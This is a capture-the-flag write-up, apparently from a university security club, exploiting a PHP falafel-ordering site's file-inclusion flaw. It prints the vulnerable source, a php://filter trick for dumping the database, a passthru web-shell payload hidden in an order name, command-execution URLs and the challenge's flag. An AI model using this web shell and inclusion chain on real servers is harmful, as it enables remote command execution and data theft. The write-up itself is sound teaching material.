








# Flagtastic Falafel

## Challenge Description

> Flagtastic Falafel just got a brand new online ordering website! The programmer told me they followed all of the security advice they heard from everyone, so it is super secure. However, with a name like "Flagtastic Falafel" there's bound to be a flag sitting around somewhere, and I know how much y'all like flags...
>
> NOTE: the flag is pretty easy to find when you get rce, but don't try to brute force the path - you'll never find it!

## Solution

### Initial Website Analysis

Obviously visiting the provided website is always a good place to start:

<div align="center">

</div>

That's a very nice picture :) Now to see what happens when we place an order:

<div align="center">

</div>

While the confirmation page isn't really remarkable, the URL looks interesting: `http://flagtastic_falafel.ctf-league.osusec.org/foods.php?food=fashionable.php&name=Me&credit_card_number=12345678`. Now is probably a good time to check out the website source we were provided, namely foods.php (I've included the entire file here for convenience):

```php
<?php
    # Someone told me that I should NEVER EVER STORE UNENCRYPTED CREDIT CARD NUMBERS IN A DATABASE!!!
    # Flagtastic Falafel takes security very seriously, so credit card numbers are stored in files instead.

    # Generate a unique file name for this customer/credit card number
    $filename = bin2hex(random_bytes(20));
    $order_file = fopen("/orders/" . $filename, "w") or die("Unable to open order file for writing :-(");

    # Write order information to the file
    fwrite($order_file, "Customer Name: " . $_GET["name"] . "\n");
    fwrite($order_file, "Credit Card Number: " . $_GET["credit_card_number"] . "\n");
    fwrite($order_file, "Order: " . $_GET["food"] . "\n\n");

    # Close the file
    fclose($order_file);

    # Record other order information in database (don't worry, credit card data is not stored in database)
    $db = new SQLite3("/orders/orders.db");
    # No sql injection allowed!!
    $stmt = $db->prepare("INSERT INTO orders (customer_name_hash, order_filename) VALUES (?, ?)");
    # Only store hash of name for security!! Storing sensitive information in the database is a no no.
    $name_hash = hash("md5", $_GET["name"]);
    $stmt->bindValue(1, $name_hash);
    $stmt->bindValue(2, $filename);
    $stmt->execute();
?>

<html>
    <head>
        <title>Flagtastic Falafel</title>
    </head>
    <body>
        <?php
            # No XSS allowed!! (we'll have an XSS challenge at some point, but this isn't it)
            echo("<p>Thanks for your order, " . htmlspecialchars($_GET["name"]) . "!</p>");
            echo("<p>We received your credit card number as " . htmlspecialchars($_GET["credit_card_number"]) . ". Please ensure that it is incorrect, and submit your order again if it isn't. Thank you!</p>");
            echo("<p>Here's what you ordered:</p>");
            include($_GET["food"]);
        ?>
    </body>
</html>
```

Some relevant information from that:

- Orders are inserted into a database located at `/orders/orders.db` as a name hash/random filename pair
- The database query is prepared in advance, so we indeed can't perform SQL injection (unless SQLite itself has vulnerabilities :))
- The ordered falafel (in the above case `fashionable.php`) is directly included into the confirmation page

That last point is interesting since, in combination with each order submission creating a file in the `/orders` directory, it allows us to execute arbitrary PHP. Because the filenames are randomly generated though, we're gonna need to find a way to get them, and what better way than the database itself?

### Obtaining the database

Even though PHP's `include()` function is meant to evaluate PHP, I figured I'd try including the database directly to see if that'd work:

<div align="center">

</div>

We are able to access the database this way, but unfortunately this format can't be loaded into SQLite, even after removing the surrounding HTML. I assume the inclusion process can mangle binary files, but I'm not entirely sure. Luckily we can get around this though by encoding the database in Base64 before it's sent, which we can then decode to the original database. [This article](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601) mentions that PHP filter streams can accomplish just that. In this case, we can include the database as Base64 using the URL `http://flagtastic_falafel.ctf-league.osusec.org/foods.php?food=php://filter/convert.base64-encode/resource=/orders/orders.db`, which yields the following:

<div align="center">

</div>

We can then select and paste the Base64 string representing the database and paste it into a file. I wrote a [short script](./dump_db.py) to decode the database back into — well, a database :) Just to verify, I selected the first 10 rows from it:

```shell
$ sqlite3 -header orders.db "SELECT * FROM orders LIMIT 10"
id|customer_name_hash|order_filename|order_date
1|d41d8cd98f00b204e9800998ecf8427e|76513e47f827ff8cec427194bc9b37d5f7489f0a|2022-11-07 11:30:38
2|d41d8cd98f00b204e9800998ecf8427e|55226b22ace13c937a35f28b415eca9d0ca13a9f|2022-11-07 11:30:47
3|c5836008c1649301e29351a55db8f65c|9ce29ab114fe88a58ee59fac3da8f563148ec355|2022-11-07 17:51:43
4|d41d8cd98f00b204e9800998ecf8427e|0cf8688f09ba63e9a0d59dad31c7ebd5bca634f7|2022-11-07 18:08:55
5|d41d8cd98f00b204e9800998ecf8427e|b653cfce195fd849a97b37165521365fd2216669|2022-11-07 18:09:16
6|d41d8cd98f00b204e9800998ecf8427e|8a206a8ced9f57056215477c15e1c55b464c7c94|2022-11-07 18:09:34
7|d41d8cd98f00b204e9800998ecf8427e|29a802a2c3a1c1b337f31096d8b90a379d60eaf2|2022-11-07 18:09:59
8|d41d8cd98f00b204e9800998ecf8427e|15c0033413643ba89e7c4599cf17135553e71905|2022-11-07 18:10:29
9|d41d8cd98f00b204e9800998ecf8427e|ae37e9c77d0b5ba9339bd860df1de75d8146e19d|2022-11-07 18:10:48
10|d41d8cd98f00b204e9800998ecf8427e|64ca9769493b31bb3e9f6b91823b3e778d741a27|2022-11-07 18:10:58
```

Great, now we can recover the entire order database :)

We know from `foods.php` that the `customer_name_hash` for a given row is the MD5 hash of the name they provided, so we should now be able to find the filename of the order from earlier:

```shell
$ echo -n "Me" | md5sum
318b2739ddc2c16c97b33c9b04b79f3e  -

$ sqlite3 orders.db "SELECT order_filename FROM orders WHERE customer_name_hash = '318b2739ddc2c16c97b33c9b04b79f3e'"
34a846e79b1a45146e2167d863acc7b7e38a2ae5
```

Neat! Including it into the order confirmation page via the URL `http://flagtastic_falafel.ctf-league.osusec.org/foods.php?food=/orders/34a846e79b1a45146e2167d863acc7b7e38a2ae5` confirms that this is indeed the correct file:

<div align="center">

</div>

Now onto exploiting being able to include arbitrary files :)

### Why yes, of course my name is `<?php`

As I mentioned above, the `include()` function evaluates the PHP in the provided file and includes the result. We can test this by setting the name (or credit card number) on the order page to some valid PHP. This is the result of providing the name `<?php echo "pwned"; ?>` (where the filename is obtained via the process mentioned in the previous section):

<div align="center">

</div>

Neat! Luckily for us, the developers behind PHP decided to include [the `passthru()` function](https://www.php.net/manual/en/function.passthru.php), which executes a command on the running server and includes the resulting text. Not sure who okayed that idea but hey, it works for our purposes :) The name payload I used to get arbitrary command execution was the following:

```php
<?php passthru($_GET["cmd"]); ?>
```

The `$_GET["cmd"]` gets the value of the `cmd` query parameter (like the `food` and `name` parameters on the order confirmation page). This allows us to execute any command without having to submit a new order, essentially giving us full shell access on the server. Let's try executing `ls` using this (again after finding the proper filename as shown above). In my case, the URL to do so was `http://flagtastic_falafel.ctf-league.osusec.org/foods.php?food=/orders/f6885a6956227115e20988e33964d9249fd89b47&cmd=ls`, which yielded the following result:

<div align="center">

</div>

And there are all the types of falafel! Onto actually finding the flag :)

### Capturing the flag

We were given that the name of the file containing the flag was `flag.txt`, but obviously not where to look for it. The `find` command turns out to be our friend here, since it recursively looks through directories until it finds a file matching the conditions you specify. Running `find -name flag.txt` via our injected PHP does yield a result, but its contents are `no flag for you, cry harder` so that's probably not the flag :( It's probably located in a different folder, so instead we can run `find / -name flag.txt` to recursively look in every directory on the Flagtastic Falafel server. You can also make `find` execute commands on each file that matches the provided condition via `-exec`, so I used `cat` to print the contents of all of the files. The final command ended up being `find / -name flag.txt -type f -exec cat $1 {} \;`. The `-type f` filter only matches files (i.e. not directories/folders) and the `-exec cat $1 {} \;` chunk just prints the contents of all of the matching files.

Because of how URLs work, though, we can't just provide that as a command; we have to encode some of the characters using [percent encoding](https://en.wikipedia.org/wiki/Percent-encoding), which in this case gives us `find%20%2F%20-name%20flag.txt%20-type%20f%20-exec%20cat%20%241%20%7B%7D%20%5C%3B`. We can then execute this command using our injected PHP via the url `http://flagtastic_falafel.ctf-league.osusec.org/foods.php?food=/orders/f6885a6956227115e20988e33964d9249fd89b47&cmd=find%20%2F%20-name%20flag.txt%20-type%20f%20-exec%20cat%20%241%20%7B%7D%20%5C%3B`:

<div align="center">

</div>

And there we have it! Our flag is `osu{fIn4llY_f0uND_fL49_F0R_FL4974s7Ic_f4l4f3l}` (not the [YouTube link](https://www.youtube.com/watch?v=dQw4w9WgXcQ), although I'd highly recommend giving that video a watch ;)). This is why you should always sanitize user input so they can't do anything naughty ;)
